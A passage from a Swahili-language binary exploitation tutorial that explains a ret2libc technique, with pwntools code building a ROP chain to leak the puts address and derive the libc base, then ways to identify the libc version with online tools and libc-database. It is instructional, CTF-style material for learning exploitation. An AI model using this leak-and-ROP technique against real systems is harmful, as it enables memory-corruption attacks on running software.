 ```python
if libc != "":
libc.address = leak - libc.symbols[func_name] #Save libc base
log.info("libc base @ %s" % hex(libc.address))

return hex(leak)

get_addr("puts") #Search for puts address in memmory to obtains libc base
if libc == "":
print("Find the libc library and continue with the exploit... (https://libc.blukat.me/)")
p.interactive()
```
Ili kufanya hivyo, mstari muhimu zaidi wa msimbo uliofanywa ni:
```python
rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
```
Hii itatuma baadhi ya bytes hadi **kuandika** **RIP** iwezekanavyo: `OFFSET`.\
Kisha, itapanga **anwani** ya gadget `POP_RDI` ili anwani inayofuata (`FUNC_GOT`) ihifadhiwe katika rejista ya **RDI**. Hii ni kwa sababu tunataka **kuita puts** **tukipitia** **anwani** ya `PUTS_GOT` kwani anwani katika kumbukumbu ya kazi ya puts imehifadhiwa katika anwani inayoelekezwa na `PUTS_GOT`.\
Baada ya hapo, `PUTS_PLT` itaitwa (ikiwa na `PUTS_GOT` ndani ya **RDI**) ili puts **isome maudhui** ndani ya `PUTS_GOT` (**anwani ya kazi ya puts katika kumbukumbu**) na it **ichapishe**.\
Hatimaye, **kazi ya main inaitwa tena** ili tuweze kutumia overflow tena.

Kwa njia hii tumem **danganya kazi ya puts** ili **ichapishe** **anwani** katika **kumbukumbu** ya kazi **puts** (ambayo iko ndani ya maktaba ya **libc**). Sasa kwamba tuna anwani hiyo tunaweza **kutafuta ni toleo gani la libc linatumika**.

![](<../../../../images/image (1049).png>)

Kwa kuwa tun **atumia** baadhi ya **binary** za **local** si **lazima** kubaini ni toleo gani la **libc** linatumika (pata tu maktaba katika `/lib/x86_64-linux-gnu/libc.so.6`).\
Lakini, katika kesi ya exploit ya mbali nitafafanua hapa jinsi unavyoweza kulipata:

### 3.1- Kutafuta toleo la libc (1)

Unaweza kutafuta ni maktaba gani inatumika kwenye ukurasa wa wavuti: [https://libc.blukat.me/](https://libc.blukat.me)\
Itakuruhusu pia kupakua toleo lililogunduliwa la **libc**

![](<../../../../images/image (221).png>)

### 3.2- Kutafuta toleo la libc (2)

Unaweza pia kufanya:

- `$ git clone https://github.com/niklasb/libc-database.git`
- `$ cd libc-database`
- `$ ./get`

Hii itachukua muda, kuwa na subira.\
Ili hii ifanye kazi tunahitaji:
